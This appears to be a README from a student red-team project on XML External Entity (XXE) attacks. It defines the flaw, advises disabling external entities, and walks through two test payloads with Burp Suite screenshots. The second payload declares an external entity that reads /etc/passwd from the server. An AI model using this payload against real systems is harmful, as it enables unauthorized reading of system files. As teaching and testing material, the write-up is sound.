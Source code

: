 # XML External Entity (XXE)

## Sensitive Data Exposure
<p>Is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system.</p>

### Remediation:
<p>The best way to prevent this vulnerability is to disable XML external entities, use a different parser or library that is not vulnerable to XXE attacks, and validate and sanitize all user input.</p>

## XML External Entity (XXE) example:

### XXE Payload:

<p>Upload the following payload</p>

``` xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

<p>We can see that the payload was able to successfully display name falcon feast</p>
<img src="https://github.com/Jay-Jay23/OWASP_Top_10/blob/main/RedTeam%20project/images/XXE.png" alt="XML">

<p>Using Burp Suite to see the request that was sent with the URL encoded payload</p>
<img src="https://github.com/Jay-Jay23/OWASP_Top_10/blob/main/RedTeam%20project/images/XXE1.png" alt="XML">

<p> Upload the following payload, to try and read the  /etc/passwd</p>

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

<p> Or push the captured request to repeater, to try and read the /etc/passwd</p>
<img src="https://github.com/Jay-Jay23/OWASP_Top_10/blob/main/RedTeam%20project/images/XXE2.png" alt="XML">

